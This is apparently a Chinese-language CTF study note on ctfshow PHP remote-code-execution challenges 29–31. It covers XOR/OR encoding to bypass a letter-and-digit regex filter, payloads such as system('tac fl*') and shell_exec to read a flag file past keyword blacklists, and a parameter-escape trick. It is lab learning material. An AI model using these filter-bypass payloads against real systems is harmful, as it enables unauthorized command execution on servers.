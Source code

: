 

#### 或运算

在rce-xor-or.php中修改preg，过滤规则`/[a-z0-9]/i`，运行生成一个res_xor.txt

![image-20240511215052132](D:\Infiltration\笔记\note\图片\image-20240511215052132.png)



使用rce-xor-or.py生成payload，使用system命令执行ver

![image-20240511215302846](D:\Infiltration\笔记\note\图片\image-20240511215302846.png)

成功执行ver

![image-20240511215245288](D:\Infiltration\笔记\note\图片\image-20240511215245288.png)



### ctfshow-29

如果c参数里面没有flag就执行eval

![image-20240511221656410](D:\Infiltration\笔记\note\图片\image-20240511221656410.png)



```
c=system('tac fl*');
```

![image-20240511222655921](D:\Infiltration\笔记\note\图片\image-20240511222655921.png)

### ctfshow-30

过滤`flag`，`system`，`php`

![image-20240511222816041](D:\Infiltration\笔记\note\图片\image-20240511222816041.png)

过滤system使用shell_exec

```
c=echo shell_exec('tac fl*');
```

![image-20240511223229615](D:\Infiltration\笔记\note\图片\image-20240511223229615.png)

### ctfshow-31

##### 参数逃逸

过滤flag|system|php|cat|sort|shell

![image-20240511223400714](D:\Infiltration\笔记\note\图片\image-20240511223400714.png)

因为只过滤c里面的参数，重新传参到x就不会过滤
